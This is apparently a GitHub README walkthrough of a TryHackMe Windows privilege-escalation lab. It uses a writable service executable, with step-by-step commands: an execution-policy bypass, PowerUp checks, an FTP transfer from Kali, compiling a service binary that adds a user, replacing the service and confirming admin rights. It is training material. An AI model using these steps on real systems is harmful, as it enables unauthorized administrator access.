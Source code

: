 # service-escalation-executable-files

*credit to THM* | https://tryhackme.com/room/windowsprivescarena

1) Start PowerShell:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> powershell -ep bypass`

2) Run *PowerUp.ps1* and *Invoke-AllChecks*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> . ./PowerUp.ps1`</br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> Invoke-AllChecks`

* Note that the 'Everyone' user group has full permissions on the 'filepermservice.exe' service executable.

3) Start *pyftpdlib* on Kali:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ python3 -m pyftpdlib -p 21 --write`

* Note: if pyftpdlib is not installed do the following:

[![Image of install](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/install.png)](#)

4) Copy *windows_service.c* from windows machine:

[![Image of ftp](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/ftp.png)](#)

* Observe *windows_service.c* was received by the FTP server on Kali

[![Image of upload](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/upload.png)](#)

5) Edit *windows_service.c* to include the command to add a new user:

[![Image of edit](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/edit.png)](#)

6) Compile *windows_service.c*:

[![Image of compile](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/compile.png)](#)

* Note: install *gcc-wingw-w64* if it is not installed

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ sudo apt-get install gcc-mingw-w64`

7) Transfer *filepermservice.exe* to windows victim machine:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> get filepermservice.exe`

8) Copy *filepermservice.exe* to C:\Program Files\File Permissions Service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> cp filepermservice.exe C:\Program Files\File Permissions Service`

9) Start *filepermsvc* service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> sc start filepermsvc`

10) Confirm that the user was added to the local administrators group by typing the following:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> net localgroup administrators`
